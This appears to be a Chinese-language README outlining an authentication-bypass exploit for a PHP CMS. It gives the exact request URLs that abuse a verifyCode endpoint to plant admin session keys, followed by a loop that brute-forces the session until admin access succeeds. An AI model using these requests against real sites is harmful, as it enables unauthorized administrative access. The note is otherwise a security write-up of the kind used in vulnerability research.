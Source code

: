 ## 思路
1.访问 /index.php/base?a=Version 判断版本

2.访问 /index.php/Admin/public/Login 生成一个 PHPSESSID

3.访问下面两条url 设置session键名，绕过session检测

```
/index.php/public/verifyCode?length=2&mode=1&width=22&height=22&verify=AdminID&type=png
/index.php/public/verifyCode?length=2&mode=1&width=22&height=22&verify=AdminName&type=png
```
4.访问 ```/index.php/public/verifyCode?length=2&mode=1&width=22&height=22&verify=AdminGroupID&type=png``` 更改session键名，会随机生成一个md5值

5.访问  ```/index.php/Admin/Public/AdminLeft/MenuTopID/7``` 进行暴力测试，判断PHPSESSID是否有效，一直循环生成session直到正确未知

6.参考
```
https://www.aisoutu.com/a/391281
https://www.cnblogs.com/Pan3a/p/14867105.html
```
